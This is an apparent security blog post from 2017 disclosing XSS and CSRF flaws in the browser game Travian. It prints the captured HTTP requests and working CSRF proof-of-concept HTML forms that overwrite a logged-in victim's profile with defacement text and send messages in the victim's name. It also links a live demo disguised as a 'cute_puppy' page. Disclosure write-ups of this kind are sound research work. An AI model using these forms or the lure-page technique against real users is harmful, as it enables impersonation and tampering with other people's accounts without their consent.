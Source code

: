 ```yaml
---
layout: post
title:  "Hacking Travian Profiles (CSRF)"
date:   2017-02-11
tags:
- CSRF
- Hacking
- Web
- Security
- HTTP
categories: jekyll update
---
```


I detected multiple XSS and CSRF vulnerabilities in [Travian](http://travian.com/){:target="_blank"} (Online game).

- The in-game messaging system of Travian did not escape {}<>'" and, when sending messages to other users, I could embed malicious JS code in messages, Which got executed upon opening
- "Edit profile" was not CSRF-protected
- "Send message" was not CSRF-protected

Here are how HTTP requests looked like:


HTTP request to send message in Travian (summarized):

    POST /messages.php?t=1 HTTP/1.1
    Host: ts1.travian.com
    Cookie: <cookie data>
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 37

    an=odysseus&be=subject1&message=body1


HTTP request to edit profile in Travian (summarized):

    POST /spieler.php HTTP/1.1
    Host: ts1.travian.com
    Cookie: ...
    Connection: close
    Content-Type: application/x-www-form-urlencoded

    e=2&uid=19948&did=73537&tag=&monat=0&jahr=&mw=1&ort=hi&be1=test1&be2=test2&dname%5B73537%5D%3D=Ithaca&s1=Save

Surprisingly, none of `did` or `uid` were checked to protect against CSRF. I could easily setup a web page, and send a link to other users that upon opening:

- A message was sent on their behalf to another user
- Their profile info was modified (by me)

Forms to simulate the HTTP requets:

Hack user profile:

```html
    <form id="hackprofile" method="POST" action="http://ts1.travian.com/spieler.php">
        <input type="hidden" name="ort" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="be1" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="be2" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="e" value="2">
        <input type="hidden" name="mw" value="1">
        <input type="hidden" name="s1" value="Save">
    </form>
```

Send message on behalf of user:

```html
<form id="msg" method="POST" action="http://ts1.travian.com/messages.php?t=1">
    <input type="hidden" name="an" value="odysseus">
    <input type="hidden" name="be" value="Test">
    <input type="hidden" name="message" value="Hi">
</form>
```

screnshots:

![Travian user profile](/images/travian-hack1.png){:width="300"}

![Travian sent messages](/images/travian-hack2.png){:width="300"}


Live demo can be viewed [here](/html/exploits/travian_hack/cute_puppy.html){:target="_blank"} (Works only if you are logged into [t1.travian.com](t1.travian.com)).
